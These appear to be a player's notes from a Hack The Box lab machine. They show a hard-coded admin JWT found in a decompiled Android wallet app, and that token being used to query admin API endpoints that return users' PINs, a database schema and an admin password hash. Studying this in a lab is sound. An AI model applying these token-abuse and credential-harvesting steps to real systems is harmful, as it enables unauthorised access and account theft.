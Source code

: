 /home/kali/Downloads/instant/res/xml
2 subdomains:
mywalletv1.instant.htb
swagger-ui.instant.htb

public class AdminActivities {  
    private String TestAdminAuthorization() {  
        new OkHttpClient().newCall(new Request.Builder().url("http://mywalletv1.instant.htb/api/v1/view/profile").addHeader("Authorization", "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA").build()).enqueue(new Callback() { // from class: com.instantlabs.instant.AdminActivities.1

"http://mywalletv1.instant.htb/api/v1/view/profile"

this token api is a JWT
![[Pasted image 20250127133017.png]]


response:
{"Profile":{"account_status":"active","email":"admin@instant.htb","invite_token":"instant_admin_inv","role":"Admin","username":"instantAdmin","wallet_balance":"10000000","wallet_id":"f0eca6e5-783a-471d-9d8f-0162cbc900db"},"Status":200}

register:
public void register(String str, String str2, String str3, String str4) {  
        JsonObject jsonObject = new JsonObject();  
        jsonObject.addProperty("username", str);  
        jsonObject.addProperty(NotificationCompat.CATEGORY_EMAIL, str2);  
        jsonObject.addProperty("password", str3);  
        jsonObject.addProperty("pin", str4);  
        new OkHttpClient().newCall(new Request.Builder().url("http://mywalletv1.instant.htb/api/v1/register").post(RequestBody.create(MediaType.parse("application/json"), jsonObject.toString())).build()).enqueue(new Callback() { // from class: com.instantlabs.instant.RegisterActivity.3

login for default user:
jsonObject.addProperty("username", str);  
jsonObject.addProperty("password", str2);  
new OkHttpClient().newCall(new Request.Builder().url("http://mywalletv1.instant.htb/api/v1/login").post(RequestBody.create(MediaType.parse("application/json"), jsonObject.toString())).build()).enqueue(new Callback() { // from class: com.instantlabs.instant.LoginActivity.4


transactions:
public void sendFunds(String str, String str2, String str3, String str4, String str5) {  
        JsonObject jsonObject = new JsonObject();  
        jsonObject.addProperty("receiver", str);  
        jsonObject.addProperty("amount", str2);  
        jsonObject.addProperty("note", str3);  
        new OkHttpClient().newCall(new Request.Builder().url("http://mywalletv1.instant.htb/api/v1/initiate/transaction").addHeader("Authorization", str4).post(RequestBody.create(MediaType.parse("application/json"), jsonObject.toString())).build()).enqueue(new AnonymousClass2(str5, str4));  
    }
    
GET /api/v1/admin/list/users HTTP/1.1
{"Status":200,"Users":[{"email":"admin@instant.htb","role":"Admin","secret_pin":87348,"status":"active","username":"instantAdmin","wallet_id":"f0eca6e5-783a-471d-9d8f-0162cbc900db"},{"email":"shirohige@instant.htb","role":"instantian","secret_pin":42845,"status":"active","username":"shirohige","wallet_id":"458715c9-b15e-467b-8a3d-97bc3fcf3c11"},{"email":"test@example.com","role":"instantian","secret_pin":12345,"status":"active","username":"testuser","wallet_id":"35631fa8-61d5-4131-b7dd-8ee0d2bfc25f"}]}


active listen on 8888 8808 ports its our 2 subdomains apps

 --> Found interesting column names in wallet_users (output limit 10)                             
CREATE TABLE wallet_users (
        id INTEGER NOT NULL, 
        username VARCHAR, 
        email VARCHAR, 
        wallet_id VARCHAR, 
        password VARCHAR, 
        create_date VARCHAR, 
        secret_pin INTEGER, 
        role VARCHAR, 
        status VARCHAR, 
        PRIMARY KEY (id), 
        UNIQUE (username), 
        UNIQUE (email), 
        UNIQUE (wallet_id)
)
ADMIN PASS pbkdf2:sha256:600000$I5bFyb0ZzD69pNX8$e9e4ea5c280e0766612295ab9bff32e5fa1de8f6cbb6586fab7ab7bc762bd978
but cracking this take too many time 

next findings its backup file:
/opt/backups/Solar-PuTTY/sessions-backup.dat
